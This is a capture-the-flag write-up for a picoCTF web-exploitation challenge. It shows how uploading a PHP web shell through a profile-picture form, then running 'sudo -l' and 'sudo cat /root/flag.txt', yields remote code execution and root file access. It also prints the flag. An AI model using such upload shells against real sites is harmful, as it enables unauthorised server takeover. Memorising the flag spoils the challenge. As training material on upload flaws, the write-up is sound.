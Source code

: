 # n0s4n1ty 1
Author:  Prince Niyonshuti N.


## 📂 Category
- Web Exploitation  
- Difficulty: Easy  

---

## 🧩 Challenge Description
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

---

## 🔍 Initial Observations
- Clicking on the **upload profile** button (even without uploading anything) redirects to a page with `.../upload.php` in the URL.
- This strongly suggests the server processes uploads using a PHP script, and that `.php` files might not be blocked.

---

## 🧪 Exploitation Steps

1. Opened Notepad and wrote a PHP payload (by referring to hint 2):
   ```php
   <?php echo exec("sudo -l"); ?>
2. Saved the file as ```shell.php```
3. Uploaded the file through the profile picture form.
4. The server responded with: **_The file shell.php has been uploaded Path: uploads/shell.php_**
5. Navigated to **_uploads/shell.php_** by replacing ```.../upload.php``` in the url with ```uploads/shell.php```
6. The page displayed **_(ALL) NOPASSWD: ALL_** -> This means the server allows running commands as ```sudo``` without a password.
7. Edited ```shell.php``` with 
    ```php
    <?php echo exec("sudo cat /root/flag.txt");?>
8. Repeat step 5
9. The flag was displayed on the page.

---

## 🏁 Flag

picoCTF{wh47_c4n_u_d0_wPHP_5f894f6c}

---

## 🧠 What I Learned

- How to identify and test if a server allows ```.php``` files to be executed.
- How PHP file upload vulnerabilities can be abused for Remote Code Execution (RCE).
- The meaning and impact of ```NOPASSWD: ALL``` in a sudo context — it means commands can be run as root without a password.
- Upload functionality must validate file extension, content, and execution permissions.

**How the upload and execution worked**

The HTML form likely looks like this behind the scenes:

    <form action="upload.php" method="POST" enctype="multipart/form-data">
        <input type="file" name="file">
        <input type="submit">
    </form>>

- This form sends the file to a script called `upload.php`.
- `upload.php` receives the file and saves it to the server, typically under a folder like `uploads/`.
- When you navigate to `shell.php`, the web server sees the `.php` extension and executes the file as PHP, not as plain text

### **Code explanation**

**Payload 1:** ```<?php echo exec("sudo -l"); ?>```

Purpose: Lists the current user's sudo privileges.
- ```sudo -l``` tells us what commands the user is allowed to run with elevated privileges.
- In this case, it returned: ```(ALL) NOPASSWD: ALL``` which means the user can run any command with sudo and no password, allowing full privilege escalation.

**Payload 2:** ```<?php echo exec("sudo cat /root/flag.txt"); ?>```

Purpose: Reads the contents of the ```flag.txt``` file in the ```/root``` directory (normally accessible only to root).
- Since NOPASSWD is enabled, the command runs as root without asking for a password.
- ```exec()``` executes the command on the server, and ```echo``` prints the output to the browser.

---
## 📚 References and Resources

- https://www.youtube.com/watch?v=odUmAZLEhQk&ab_channel=COZT
- chatGPT

---
### Last updated: 5/14/2025